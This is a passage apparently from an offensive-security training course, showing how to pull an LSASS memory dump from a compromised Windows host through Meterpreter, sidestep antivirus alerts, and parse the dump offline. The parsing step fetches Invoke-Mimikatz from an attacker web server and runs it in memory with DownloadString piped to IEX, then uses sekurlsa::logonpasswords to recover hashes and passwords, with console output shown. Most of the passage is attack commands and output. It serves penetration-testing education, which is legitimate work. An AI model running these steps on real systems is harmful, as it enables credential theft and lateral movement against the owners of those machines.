 
> Listing 35 - Dumping the LSASS memory

To parse the dump file, we can use Invoke-Mimikatz on web01, but this will again trigger an antivirus alert. Instead, we are going to download the dump file and transfer it to the Windows Server 2019 test machine.

```
C:\Windows\system32> exit
exit

meterpreter > download C:\\Windows\\tasks\\lsass.dmp /var/www/html/lsass.dmp
[*] Downloading: C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 1.00 MiB of 45.98 MiB (2.17%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 2.00 MiB of 45.98 MiB (4.35%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
...
[*] Downloaded 44.00 MiB of 45.98 MiB (95.69%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 45.00 MiB of 45.98 MiB (97.86%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 45.98 MiB of 45.98 MiB (100.0%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] download   : C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
```

> Listing 36 - Downloading the LSASS dump file

Given that the LSASS dump file is almost 46 MB, the download can take some time through Meterpreter. Once it's downloaded, we'll upload it to the test machine along with Invoke-Mimikatz.

Next, we'll run sekurlsa::minidump to specify the dump file followed by sekurlsa::logonpasswords to dump passwords and hashes for all logged on users.

```
PS C:\Tools> wget -Uri http://192.168.119.120/lsass.dmp -OutFile C:\tools\lsass.dmp

PS C:\Tools> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX

PS C:\Tools> Invoke-Mimikatz -Command "`"sekurlsa::minidump c:\tools\lsass.dmp`" sekurlsa::logonpasswords"
Hostname: Test / S-1-5-21-3167539577-2907730259-3891639048

  .#####.   mimikatz 2.2.0 (x64) #19041 May 20 2020 14:57:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::minidump c:\tools\lsass.dmp
Switch to MINIDUMP : 'c:\tools\lsass.dmp'

mimikatz(powershell) # sekurlsa::logonpasswords
Opening : 'c:\tools\lsass.dmp' file for minidump...

...

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WEB01$
Domain            : EVIL
Logon Server      : (null)
Logon Time        : 6/24/2020 2:01:32 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
```